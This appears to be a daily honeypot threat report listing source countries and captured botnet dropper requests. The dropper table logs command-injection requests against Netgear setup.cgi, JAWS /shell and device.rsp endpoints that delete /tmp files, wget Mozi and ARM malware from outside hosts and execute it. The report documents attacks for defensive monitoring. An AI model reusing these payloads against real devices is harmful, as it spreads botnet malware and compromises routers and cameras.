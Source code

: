 ```yaml
---
title: "Report: 2025-02-20 "
date: 2025-02-20
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-20
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| PL               | Dubai              |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                    |
|:---------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 221.15.186.233 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://221.15.186.233:58183/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0              |
| 45.230.66.27   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://45.230.66.27:10529/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                               |
| 121.231.99.27  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://121.231.99.27:57203/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                              |
| 27.215.84.91   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://27.215.84.91:51040/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                |
| 39.87.13.136   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://39.87.13.136:59404/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                |
| 219.73.115.226 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsarm;chmod+777+/tmp/jawsarm;sh+/tmp/jawsarm HTTP/1.1                                                                                   |
| 77.239.220.143 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                 |
| 115.236.79.230 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsarm;chmod+777+/tmp/jawsarm;sh+/tmp/jawsarm HTTP/1.1                                                                                   |
| 219.77.30.173  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsarm;chmod+777+/tmp/jawsarm;sh+/tmp/jawsarm HTTP/1.1                                                                                   |
| 91.224.92.10   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.125.66.114%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
